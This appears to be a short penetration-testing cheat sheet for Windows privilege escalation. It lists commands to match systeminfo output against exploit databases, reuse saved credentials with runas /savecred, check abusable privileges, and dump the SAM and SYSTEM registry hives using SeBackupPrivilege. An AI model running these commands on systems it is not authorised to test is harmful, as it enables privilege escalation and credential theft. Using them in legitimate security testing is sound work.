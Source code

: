 # Windows

## Find Windows Kernel Vulnerabilities

```
systeminfo
```

{% code overflow="wrap" %}
```
wes /tmp/systeminfo.txt -c -e --definitions /opt/wesng/definitions.zip -i "Elevation Of Privilege" | egrep -i exploit-db
```
{% endcode %}

{% code overflow="wrap" %}
```
wes /tmp/systeminfo.txt -c -e --definitions /opt/wesng/definitions.zip -i 'Remote Code Execution' | egrep -i exploit-db
```
{% endcode %}

{% code overflow="wrap" %}
```
windows-exploit-suggester.py --systeminfo /tmp/systeminfo.txt -d /opt/winreconpack/2022-10-09-mssb.xls
```
{% endcode %}

## Test For Previously Used credentials

```
cmdkey /list
```

```
runas /savecred /user:someuser whoami.exe
```

## Test For abuseable privileges

```
whoami /priv
```

### SeBackupPrivilege

```
reg.exe save hklm\sam sam.save
```

```
reg.exe save hklm\system system.save
```
